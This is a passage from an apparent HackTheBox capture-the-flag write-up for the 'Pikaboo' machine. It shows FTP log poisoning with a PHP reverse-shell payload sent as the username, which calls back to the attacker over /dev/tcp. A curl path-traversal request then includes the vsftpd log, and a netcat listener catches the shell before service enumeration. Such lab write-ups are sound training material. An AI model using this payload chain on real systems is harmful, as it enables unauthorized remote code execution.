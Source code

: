 ![alt text](https://github.com/Debajyoti0-0/HackTheBox-Writeups/blob/main/Pikaboo%20(HTB)/Pasted%20image%2020210718233144.png)
Now let's try and get revshell from that.
```bash
kali@kali:~/HackTheBox/Pikaboo$ ftp pikaboo.htb 
Connected to pikaboo.htb.
220 (vsFTPd 3.0.3)
Name (pikaboo.htb:kali): <?php exec("/bin/bash -c 'bash -i > /dev/tcp/<YOURIP>/<PORT> 0>&1'"); ?>
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
ftp> exit
221 Goodbye.
```
and the password can be anything and then just start the nc listerner.
```bash
kali@kali:~/HackTheBox/Pikaboo$ curl http://pikaboo.htb/admin../admin_staging/index.php?page=/var/log/vsftpd.log
```
And Boom we have the reverse shell.
```bash
kali@kali:~/HackTheBox/Pikaboo$ sudo rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [<SNIP>] from (UNKNOWN) [<SNIP>] 59006
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
# Gaining User
## Enumeration
Let's check for all the running services on the box
```bash
www-data@pikaboo:/opt/pokeapi$ ss -tupln
Netid   State    Recv-Q   Send-Q     Local Address:Port     Peer Address:Port                                                                                   
udp     UNCONN   0        0                0.0.0.0:68            0.0.0.0:*                                                                                      
tcp     LISTEN   0        128              0.0.0.0:80            0.0.0.0:*       users:(("nginx",pid=601,fd=6),("nginx",pid=600,fd=6))                          
tcp     LISTEN   0        128            127.0.0.1:81            0.0.0.0:*                                                                                      
tcp     LISTEN   0        128              0.0.0.0:22            0.0.0.0:*                                                                                      
tcp     LISTEN   0        128            127.0.0.1:389           0.0.0.0:*                                                                                      
```